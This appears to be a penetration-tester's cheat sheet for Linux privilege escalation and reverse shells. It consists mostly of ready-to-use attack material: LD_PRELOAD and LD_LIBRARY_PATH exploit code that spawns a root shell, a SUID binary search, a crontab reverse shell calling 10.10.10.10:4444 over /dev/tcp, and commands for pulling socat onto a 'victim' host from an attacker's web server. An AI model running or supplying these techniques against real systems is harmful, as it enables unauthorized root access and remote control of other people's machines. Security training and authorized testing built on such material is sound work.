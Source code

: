 # PrivEscalation
***
### > Better listener shell experience
```python -c 'import pty;pty.spawn("/bin/bash")'``` 

### > List sudo capability of the current user
```sudo -l```

### > Find interesting binaries that can exploit shell
```find / -perm /6000 2>/dev/null | grep '/bin'```

### > https://gtfobins.github.io/ followed the interesting tools that can exploit 

### > env_keep exploit when ```sudo -l``` and ```ddl <thetargetedprogram>``` to find its libraries

#### - Take advantage of LD_PRELOAD
a. compile the library.
```gcc -fPIC -shared -nostartfiles -o /tmp/preload.so /home/user/preload.c```
```#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

b. sudo program with the LD_PRELOAD
```sudo LD_PRELOAD=/tmp/preload.so program-name-here```

#### - Take advantage of LD_LIBRARY_PATH
a. find the libraries used by the program
```ldd /usr/sbin/<program> #for example```

b. compile the library with one of the libraries name
```gcc -o /tmp/<libraryname> -shared -fPIC /home/user/library_path.c```
```#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>

void _init() {
	unsetenv("LD_PRELOAD");
	setresuid(0,0,0);
	system("/bin/bash -p");
}
```

c. sudo program with the LD_LIBRARY_PATH
```sudo LD_LIBRARY_PATH=/tmp <programname>```

### > Cron job if it's writable on /etc/crontab file (can use any available type of reverse shell http://revshells.com/ ):
```#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
```

### > Automated tools
LinPeas: https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite/tree/master/linPEAS
LinEnum: https://github.com/rebootuser/LinEnum
LES (Linux Exploit Suggester): https://github.com/mzet-/linux-exploit-suggester
Linux Smart Enumeration: https://github.com/diego-treitos/linux-smart-enumeration
Linux Priv Checker: https://github.com/linted/linuxprivchecker


# Reverse Shell
***
### > https://www.revshells.com/
### > MonkeyPenTest
### > Start webserver using python ```sudo python3 -m http.server 80``` then download files into victim shell 
Linux :"wget <LOCAL-IP>/socat -O /tmp/socat"
Windows: "Invoke-WebRequest -uri <LOCAL-IP>/socat.exe -outfile C:\\Windows\temp\socat.exe"

